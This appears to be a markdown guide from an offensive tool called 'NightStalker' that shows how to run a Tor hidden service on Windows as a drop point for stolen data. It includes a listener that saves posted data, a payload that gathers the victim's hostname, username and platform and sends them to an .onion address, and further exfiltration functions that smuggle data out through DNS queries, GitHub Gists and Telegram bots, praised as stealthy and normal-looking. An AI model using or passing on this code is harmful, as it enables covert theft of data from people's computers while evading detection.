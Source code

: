 # Quick Tor Hidden Service Setup for Windows

## Option 1: Easy Setup (Recommended)

### Step 1: Install Tor Browser
1. Download Tor Browser from https://www.torproject.org/
2. Install and run Tor Browser
3. This gives you a working Tor connection

### Step 2: Use Existing Tor Network Services
Instead of setting up your own hidden service, use existing Tor services:

```python
# Use a Tor exit node or existing hidden service
tor_exit_nodes = [
    "https://httpbin.org/",  # Works through Tor
    "https://postman-echo.com/",  # Another test endpoint
]

# Or use a public hidden service
public_hidden_services = [
    "http://zqktlwiuavvvqqt4ybvgvi7tyo4hjl5xgfuvpdf6otjiycgwqbym2qad.onion/",  # The Hidden Wiki
]
```

## Option 2: Full Hidden Service Setup

### Step 1: Install Tor Service
```powershell
# Using Chocolatey (if installed)
choco install tor

# Or download from https://www.torproject.org/download/tor/
```

### Step 2: Create Tor Configuration
```powershell
# Create Tor directory
mkdir C:\tor-hidden-service

# Create torrc file
@"
HiddenServiceDir C:\tor-hidden-service
HiddenServicePort 80 127.0.0.1:8080
HiddenServicePort 443 127.0.0.1:8443
"@ | Out-File -FilePath "C:\tor\torrc" -Encoding ASCII
```

### Step 3: Start Tor Service
```powershell
# Install Tor as Windows service
tor --service install

# Start the service
tor --service start

# Check if running
netstat -an | findstr :9050
```

### Step 4: Get Your .onion Address
```powershell
# Check the hostname file
type C:\tor-hidden-service\hostname
```

### Step 5: Create Python Server
```python
# Save as covert_server.py
import socket
import threading
import json
import time
from http.server import HTTPServer, BaseHTTPRequestHandler

class CovertHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers.get('Content-Length', 0))
        data = self.rfile.read(content_length)
        
        # Save received data
        with open(f"received_data_{int(time.time())}.json", "w") as f:
            f.write(data.decode())
        
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')
    
    def log_message(self, format, *args):
        print(f"[{time.strftime('%H:%M:%S')}] {format % args}")

# Start server
server = HTTPServer(('127.0.0.1', 8080), CovertHandler)
print("🌙 Covert server running on port 8080")
print("🔗 Accessible via Tor hidden service")
server.serve_forever()
```

### Step 6: Update NightStalker Payload
```python
# Update your exfiltration payload
onion_address = "your-onion-address.onion"  # From Step 4

exfil_code = '''
import os, json, socket, platform
import urllib.request

def exfil_via_tor():
    data = {
        'hostname': socket.gethostname(),
        'user': os.getenv('USERNAME'),
        'platform': platform.platform(),
        'timestamp': time.time()
    }
    
    # Your .onion address
    onion_address = "''' + onion_address + '''"
    
    try:
        req = urllib.request.Request(
            f'http://{onion_address}/',
            data=json.dumps(data).encode(),
            headers={'Content-Type': 'application/json'}
        )
        urllib.request.urlopen(req)
        print("Data exfiltrated via Tor successfully")
    except Exception as e:
        print(f"Tor exfiltration failed: {e}")

exfil_via_tor()
'''
```

## Option 3: No-Server Alternatives (Easiest)

### DNS Exfiltration (No Setup Required)
```python
# This works without any server setup
def dns_exfil(data, domain="your-domain.com"):
    encoded = base64.b64encode(json.dumps(data).encode()).decode()
    chunks = [encoded[i:i+50] for i in range(0, len(encoded), 50)]
    
    for chunk in chunks:
        query = f"{chunk}.{domain}"
        socket.gethostbyname(query)  # This sends the data
        time.sleep(1)
```

### GitHub Gist (Looks Normal)
```python
# Create a GitHub personal access token
# Create a private gist
# Update it with your data

import requests

def gist_exfil(data, gist_id, token):
    headers = {'Authorization': f'token {token}'}
    payload = {'files': {'data.txt': {'content': json.dumps(data)}}}
    requests.patch(f'https://api.github.com/gists/{gist_id}', 
                  headers=headers, json=payload)
```

### Telegram Bot (Very Stealth)
```python
# Create a Telegram bot with @BotFather
# Get bot token and chat ID
# Send data via bot

import requests

def telegram_exfil(data, bot_token, chat_id):
    url = f"https://api.telegram.org/bot{bot_token}/sendMessage"
    payload = {'chat_id': chat_id, 'text': json.dumps(data)}
    requests.post(url, json=payload)
```

## Quick Start: Use Existing Services

The easiest approach is to use existing services that work through Tor:

```python
# Use httpbin.org (works through Tor)
target_url = "https://httpbin.org/post"

# Or use a public hidden service
target_url = "http://zqktlwiuavvvqqt4ybvgvi7tyo4hjl5xgfuvpdf6otjiycgwqbym2qad.onion/"

# Your payload will work without setting up your own server
```

## Summary

**Easiest Options (No Server):**
1. **DNS Exfiltration**: No setup, very stealthy
2. **GitHub Gist**: Looks normal, requires token
3. **Telegram Bot**: Very stealthy, requires bot setup

**Medium Difficulty:**
4. **Tor Hidden Service**: Most covert, requires Tor setup

**Quick Start:**
- Use DNS exfiltration with your own domain
- Use GitHub Gist for larger data
- Use existing Tor services for testing

The **DNS exfiltration** method is the easiest to start with - you just need a domain name and it looks like normal DNS traffic! 